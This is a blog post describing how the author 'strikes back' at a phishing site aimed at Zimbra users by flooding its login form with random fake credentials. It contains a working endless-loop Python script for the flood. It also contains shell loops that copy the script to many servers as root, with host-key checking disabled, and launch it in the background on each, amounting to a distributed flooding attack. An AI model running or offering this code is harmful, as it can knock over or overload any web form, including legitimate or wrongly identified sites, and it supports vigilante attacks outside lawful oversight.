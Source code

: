 ```yaml
---
author: Cristian Livadaru
categories:
- security
date: "2018-08-01T12:16:24Z"
description: ""
draft: false
image: https://images.unsplash.com/photo-1510251197878-a2e6d2cb590c?ixlib=rb-0.3.5&q=80&fm=jpg&crop=entropy&cs=tinysrgb&w=1080&fit=max&ixid=eyJhcHBfaWQiOjExNzczfQ&s=b63122614d1a6f228c5ebf24c2d5635c
slug: how-to-deal-with-phishing-sites
summary: |-
  I've been receiving some phishing mails aimed at Zimbra users.
  I could just delete and ignore them, but where's the fun in that?
tags:
- security
- phishing
title: How to deal with phishing sites
---
```



Instead of just deleting the mail, I thought to strike back and flood the site with some fake data.
First, you need some proxy or a new server, you could use [DigitalOcean](https://m.do.co/c/bbc69fd7ab10) for example.
Then you need to get the form fields that need to be filled:

![2018-08-01_15-54-42](/images/2018/08/2018-08-01_15-54-42.png)

Put everything in this python script (source: https://en.internetwache.org/pwning-a-paypal-phishing-site-11-03-2013/)

```python
#!/usr/bin/python2.7

import random
import urllib2
import urllib

SPAMURL="***"

def randstr(leng):
    res = ""
    for i in xrange(0,leng):
        res = res + str(chr(random.randint(65,125)))
    return res
def sendSpamReq(url):
    data = urllib.urlencode({'username':randstr(8)+"@"+randstr(3)+".de",
                             'password':randstr(12)
   })
    urllib2.urlopen(urllib2.Request(url,data))
count = 0
while True:
    count=count+1
    try:
        sendSpamReq(SPAMURL)
        print "["+str(count)+"] Success"
    except:
        print "["+str(count)+"] Failed"
```

change the SPAMURL and the form fields accordingly (username and password in my case)
Run the script and leave it running, this will flood the phisher with a lot of fake data which will hopefully make the rest of the data they might have useless.

## Update

Apparently, after 4k Mails, the phisher blocked my IP. Looks like someone want's to play. Ok, let's go, my friend.

![2018-08-01_16-48-38](/images/2018/08/2018-08-01_16-48-38.png)

On your machine create a file called `flood-hosts` and add each IP of your server in this file, one line per IP.

Then copy the file to each server

```
for dest in $(<flood-hosts); do
  scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null flood.py root@${dest}:/root/
done
```

and start it

```
for dest in $(<flood-hosts); do
  ssh root@${dest} -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null "nohup python flood.py > /dev/null 2>&1 &"
done
```

and you can start it several times of course.

